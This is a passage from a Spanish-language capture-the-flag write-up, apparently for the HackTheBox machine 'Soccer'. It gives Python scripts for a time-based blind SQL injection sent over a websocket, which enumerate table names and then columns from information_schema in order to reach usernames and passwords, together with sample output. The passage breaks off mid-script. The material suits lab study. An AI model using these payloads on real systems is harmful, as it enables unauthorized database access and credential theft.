 ```python
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Tables: ")
    time.sleep(2)
    for position in range(1,100):
        for letter in letters:
            let = letter
            payload = f"or if(substr((select group_concat(table_name) from information_schema.tables where table_schema='soccer_db'),{position},1)=\'{letter}\',sleep(2),1)"
            request = "{\"id\":\"1 "+payload+"\"}"
            p1.status(request)
            response = peticion(request)
            if response:
                break
```

Al cabo de un rato descubriremos:

```bash
 python3 tables.py 
[◤] SQLI: {"id":"1 or if(substr((select group_concat(table_name) from information_schema.tables where table_schema='soccer_db'),12,1)='l',sleep(2),1)"}
[|] Tables: : accounts
```

En la base de datos soccer_db solo existe la tabla ***accounts***.

#### Columnas de la tabla *accounts*

Ahora listaremos todas las **columnas** de la tabla accounts. Deberíamos de encontrar dos columnas que hicieran alusión al nombre de **usuario** y **contraseña**.

La query es la siguiente:

```python
"{"id":"1 or if(substr((select group_concat(column_name) from information_schema.columns where table_name='accounts'),{position},1)='{letter}',sleep(2),1)}"
```

***Script***:

```python
import asyncio
import websockets
import signal,sys,string,time
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

#Ctrl+C 
signal.signal(signal.SIGINT,def_handler)

#Variables globales
letters = string.ascii_lowercase + string.punctuation
burp = {'http':'http://127.0.0.1:8080'}
columns = ""
let = ""

async def send_request(request):
    async with websockets.connect('ws://soc-player.soccer.htb:9091/') as websocket:
        await websocket.send(request)
        inicio = time.time()
        response = await websocket.recv()
        fin = time.time()
        response = False
        if fin - inicio >= 2:
```